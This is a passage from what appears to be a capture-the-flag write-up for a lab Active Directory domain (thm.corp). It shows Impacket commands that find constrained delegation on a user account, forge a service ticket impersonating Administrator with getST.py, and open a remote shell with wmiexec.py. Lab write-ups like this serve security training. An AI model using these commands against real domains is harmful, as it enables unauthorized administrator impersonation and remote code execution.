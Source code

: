 ```bash
findDelegation.py 'thm.corp/DARLA_WiNTERS'

DARLA_WINTERS  Person       Constrained w/ Protocol Transition  cifs/HayStack.thm.corp/thm.corp 
DARLA_WINTERS  Person       Constrained w/ Protocol Transition  cifs/HayStack.thm.corp          
DARLA_WINTERS  Person       Constrained w/ Protocol Transition  cifs/HAYSTACK                   
DARLA_WINTERS  Person       Constrained w/ Protocol Transition  cifs/HayStack.thm.corp/THM      
DARLA_WINTERS  Person       Constrained w/ Protocol Transition  cifs/HAYSTACK/THM  
```
Then we can exploit with the following commands:
```bash
getST.py -k -dc-ip 10.10.250.218 -impersonate Administrator -spn cifs/HayStack.thm.corp thm.corp/DARLA_WINTERS
export KRB5CCNAME=Administrator.ccache
```
> getST and findDelegation are from impackets suite.

Finally we can gain a shell with the command below:
```bash
wmiexec.py THM.CORP/Administrator@HayStack.thm.corp -k -no-pass
```
We can retrieve the final flag.